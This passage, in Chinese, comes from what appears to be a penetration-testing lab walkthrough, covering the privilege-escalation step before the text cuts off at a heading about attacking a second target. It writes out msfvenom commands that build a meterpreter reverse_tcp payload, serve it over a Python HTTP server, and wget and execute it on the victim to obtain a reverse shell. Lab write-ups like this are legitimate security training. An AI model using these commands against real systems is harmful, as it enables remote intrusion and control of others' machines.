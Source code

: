 ### 2.3 提权

内核是 x86，使用 mefvenom 生成一个可执行的 shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.179.155 lport=6789 -f elf -o shell.elf
```

生成完后，kali 使用 python 开启 http 服务

```bash
python -m SimpleHTTPServer 8080
```

[![](assets/1705981930-da7c330b5be516de8cb3d6a4a434df28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143306-efa3909e-b826-1.png)

使用上面获取的 shell 下载可执行 shell，并执行

```bash
wget http://192.168.179.155:8080/shell.elf
./shell.elf
```

在执行之前，kail 需要先开启对 6789 的监听

[![](assets/1705981930-a19daaf3a5ccdd9812d896b68f17fc90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143324-fa78f2d4-b826-1.png)

msf 收到反弹的 shell

## 3.攻击 Target2

### 3.1 信息收集
